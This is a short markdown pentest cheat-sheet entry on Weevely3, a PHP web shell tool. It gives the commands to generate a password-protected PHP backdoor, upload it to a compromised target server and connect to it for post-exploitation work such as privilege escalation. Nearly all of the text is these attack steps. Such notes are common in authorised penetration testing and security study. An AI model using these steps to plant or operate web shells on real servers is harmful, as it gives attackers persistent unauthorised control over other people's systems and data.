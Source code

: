 # PHP Shell: Weevely3

Use it after exploitation to get assistance in priv esc and others:
https://github.com/epinna/weevely3

Generating PHP shell:
```
$ weevely generate select_pw shell.php
```

Then upload shell.php on server and access it using:
```
$ weevely http://<target>/shell.php selected_password
weevely> 
```